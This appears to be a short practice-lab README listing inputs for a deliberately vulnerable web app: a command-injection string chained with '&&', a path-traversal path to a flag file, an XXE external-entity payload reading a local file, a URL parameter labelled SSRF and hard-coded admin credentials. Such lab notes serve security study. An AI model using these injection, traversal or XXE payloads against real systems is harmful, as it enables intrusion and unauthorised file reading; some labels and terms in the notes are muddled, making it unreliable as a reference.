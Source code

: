 ﻿# 1. Command injection exploit

> ### Get the IP address of the machine
> ```cmd
>     pconfig | findstr /R /C:"IPv4 Address" 
> ```


> ### Fill input filed with matching IP address
> ```text
>     192.168.1.103 && echo \"Hello, this is Command injection exploit attack\"
> ```

# 2. Path traversal for flag access

> ### Correct
>
> ```text
>     info.txt
> ```

> ### Inorrect
>
> ```text
>     ../Aleksandar/info.txt
> ```

# 3. Server side request forgery

> ### Add to URL
>
> ```text
>     &Password=true
> ```

# 4. XXE

> ### Correct
>
> ```xml
> <?xml version="1.0"?>
> 
> <!DOCTYPE user [
>         <!ELEMENT user (info)>
>         <!ELEMENT info (#PCDATA)>
>         <!ENTITY xxe SYSTEM "file:///C:/Users/kaoko/Documents/Rider/RBS-Practise/WebApplication1/wwwroot/Data/Aleksandar/info.txt">
>         ]>
> <user>
>     <info>&xxe;</info>
> </user>

> ### Inorrect
>
> ```xml
> <?xml version="1.0"?>
>
> <!DOCTYPE user [
>        <!ELEMENT user (info)>
>        <!ELEMENT info (#PCDATA)>
>        ]>
> <user>
>    <info>Ja sam Aca.</info>
> </user>
> ```

# 5. Hard coded input

> ### Inorrect
>
> ```text
> username: admin
> password: unsafe
> ```

> ### Correct
>
> ```text
> username: admin
> password: safe
> ```




